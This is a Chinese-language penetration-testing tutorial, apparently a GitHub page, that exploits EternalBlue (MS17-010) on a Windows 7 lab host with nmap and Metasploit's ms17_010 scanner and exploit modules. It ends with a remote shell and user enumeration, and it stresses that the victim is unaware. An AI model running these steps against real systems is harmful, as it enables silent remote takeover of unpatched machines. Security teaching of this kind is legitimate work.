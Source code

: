 #内网渗透超级好用，永恒之蓝了解一下

##Eternalblue漏洞介绍
永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织影子掮客泄漏。该工具利用445/TCP端口的文件分享协议的漏洞进行散播，被影响的Windows版本不计其数，**该漏洞可以不需要victim执行任何的操作，就可以远程控制victim的电脑**

马上开始我们的教程
------------------------------------------------------------------------


攻击者：Kali        IP地址:192.168.43.196
victim：Windows7    IP地址:192.168.43.14

这次我们用到的MS17_010模块，MSF框架里面已经集成了，所以我们不需要手动添加模块
上述提到永恒之蓝是利用TCP的445端口进行传播，那我们首先需要知道目标是否开启了445端口，在还没有打上补丁之前，默认该端口是开启的，*如果该端口没有开启便无法渗透成功*
##我们使用nmap来扫描一下victim的端口状态
```
namp -Pn 192.168.43.14
```
![nmap](ch2/0/nmap.png)

从上述的扫描结果可以知道该主机的135,139,**445**等端口是开启的，并且可以看到每个端口对应的服务是什么，满足该条件之后，我们接着来扫描一下目标主机是否有这个漏洞，一般445端口开启都会满足
##接着加载MSF框架，使用search找到有关于MS17_010扫描模块
```
search ms17_010
```
![nmap](ch2/0/ms17.png)

从图片中可以看到有一个和scanner相关的，我们首先使用该模块来扫描一下
```
use auxiliary/scanner/smb/smb_ms17_010
```
使用该模块之后，我们来查看一下相关的参数
```
show options
```
![scanner](ch2/0/canshu.png)

别看这么多参数，我们只需要设置一个参数就好了，我们需要通过RHOSTS参数来指定我们扫描的对象是谁
```
set RHOST x.x.x.x
```
![RHOST](ch2/0/shezhi.png)

接下来
```
exploit
```
来测试是否满足条件，可以进行渗透测试
![exploit](ch2/0/host.png)

从图片中显示的***Host is likely VULNERABLE to MS17-010!***可以得知是满足渗透测试的条件
##接着我们使用MS17-010模块进行渗透
```
use exploit/windows/smb/ms17_010_eternalblue
```
![ms17](ch2/0/ms17-010.png)

一样先查看参数
```
show options
```
![show options](ch2/0/show.png)
也一样显示很多参数，我们还是只需要设置一个参数，那就是RHOSTS，该参数代表victim的IP地址
```
set RHOSTS x.x.x.x
```
![IP address](ch2/0/rhost.png)
设置完成之后再来一条
```
exploit
```
出现该页面说明渗透成功
![Cpan](ch2/0/shentou.png)

图片中出现了Windows系统才会有的C盘，这个时候我们已经获取到了victim的shell，可以对该电脑写入文件，查看信息之类的，***注意：此时victim是毫无察觉的，也不需要用户指定任何的操作***

比如查看victim用户几个账户

![Cpan](ch2/0/user.png)

这个教程比较简单，赶快动手试试吧!

更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

***如果帮助到你，希望可以得到你的打赏***